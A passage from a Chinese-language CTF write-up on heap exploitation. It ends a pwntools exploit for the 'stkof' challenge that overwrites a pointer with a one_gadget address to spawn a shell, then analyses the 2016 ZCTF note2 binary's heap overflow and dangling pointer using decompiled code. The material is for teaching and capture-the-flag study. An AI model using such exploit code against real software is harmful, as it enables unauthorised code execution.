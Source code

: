 ```python
        Edit(io, 1, 0x08, p64(one_gadget_addr))
        Free(io, 1)
        try:
            io.sendline("id")
            log.info(io.readline(timeout=3))
        except Exception, e:
            io.close()
            continue
        io.interactive()

if __name__ == "__main__":
    binary = "./bins/a679df07a8f3a8d590febad45336d031-stkof"
    main(binary, "")
```


## 2016 ZCTF note2

### 分析程序

首先，我们先分析一下程序，可以看出程序的主要功能为

- 添加note，size限制为0x80，size会被记录，note指针会被记录。
- 展示note内容。
- 编辑note内容，其中包括覆盖已有的note，在已有的note后面添加内容。
- 释放note。

仔细分析后，可以发现程序有以下几个问题

1. 在添加note时，程序会记录note对应的大小，该大小会用于控制读取note的内容，但是读取的循环变量i是无符号变量，所以比较时都会转换为无符号变量，那么当我们输入size为0时，glibc根据其规定，会分配0x20个字节，但是程序读取的内容却并不受到限制，故而会产生堆溢出。
2. 程序在每次编辑note时，都会申请0xa0大小的内存，但是在 free 之后并没有设置为NULL。

第一个问题对应在ida中的代码如下

```c
unsigned __int64 __fastcall ReadLenChar(__int64 a1, __int64 a2, char a3)
{
  char v4; // [sp+Ch] [bp-34h]@1
  char buf; // [sp+2Fh] [bp-11h]@2
  unsigned __int64 i; // [sp+30h] [bp-10h]@1
  __int64 v7; // [sp+38h] [bp-8h]@2

  v4 = a3;
  for ( i = 0LL; a2 - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == v4 )
      break;
    *(_BYTE *)(i + a1) = buf;
  }
  *(_BYTE *)(a1 + i) = 0;
  return i;
}
```
